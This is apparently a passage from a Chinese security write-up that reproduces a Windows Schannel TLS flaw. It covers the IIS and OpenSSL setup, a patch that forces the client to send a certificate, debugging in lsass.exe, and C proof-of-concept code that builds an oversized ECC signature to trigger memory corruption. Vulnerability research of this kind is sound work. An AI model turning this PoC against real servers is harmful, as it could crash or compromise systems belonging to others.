 通过IIS管理器构建服务器证书，采用自签名证书，添加网站绑定https，设置ssl为忽略客户端证书。

![enter image description here](http://static.wooyun.org/20141204/2014120419483092767.png)

![enter image description here](http://drops.javaweb.org/uploads/images/37923407f7d4935e29384024a79b5121315b6605.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/ea3fefc472060d524776788be5cb84351bc989b9.jpg)

通过https协议访问搭建好的网站。

![enter image description here](http://drops.javaweb.org/uploads/images/d86e5643ac438741fdc8c466e735ff29e75b2429.jpg)

客户端环境的搭建
--------

* * *

在采用openssl-1.0.1j，在kali上编译运行，生成EC cert和key，命令如下：

> openssl ecparam -out ec_key.pem -name prime256v1 -genkey openssl req -new -key ec_key.pem -x509 -nodes -days 365 -out cert.pem

为了能够让服务器进行客户端证书认证，修改openssl-1.0.1j/ssl/s3_clnt.c文件，每次都发送证书进行认证。修改函数int ssl3_connect(SSL *s)，在Server Hello Done处理后，将s->s3->tmp.cert_req 置为1。

![enter image description here](http://drops.javaweb.org/uploads/images/fdd9631b3680b50cc98f03b064e098a1b7021dc5.jpg)

编译修改后的代码，切换当前目录为openssl-1.0.1j/apps/，通过命令./openssl s_client -connect xxx.xxx.xxx.xxx:443 -cert cert.pem -key ec_key.pem -verify 5连接服务端，在服务器端的lsass.exe进程的NTSTATUS __thiscall CSsl3TlsServerContext::DigestCertVerify(int this, unsigned __int8 *a2, unsigned int a3)函数上设置断点，可以看到触发了断点。

![enter image description here](http://drops.javaweb.org/uploads/images/3895cd693f3207dbb79cdb95a75190df154b885e.jpg)

POC构造
-----

* * *

下面构造签名部分，即CryptDecodeObject解码的数据，为了能够得到可控的解码后的数据，调用CryptEncodeObject对我们想要的数据进行编码，这样只要编码成功，CryptDecodeObject就总是可以解码成功。

```
BYTE* GetDecodeObject()
{
CERT_ECC_SIGNATURE sig;
    char pData[0x1000];
    memset( pData , 0xcc , 0x1000 );
    sig.r.pbData = (BYTE*)pData;
    sig.r.cbData = 0x20;
    sig.s.cbData = 0x1000;
    sig.s.pbData = (BYTE*)pData;
    DWORD cbEncoded = 0;
    if ( CryptEncodeObject( X509_ASN_ENCODING , X509_ECC_SIGNATURE , &sig , NULL , &cbEncoded ) )
    {
        unsigned char *pEnc = new unsigned char[cbEncoded];
        CryptEncodeObject( X509_ASN_ENCODING , X509_ECC_SIGNATURE , &sig , (BYTE*)pEnc , &cbEncoded );
        return pEnc;
    }
    return NULL;
}

```
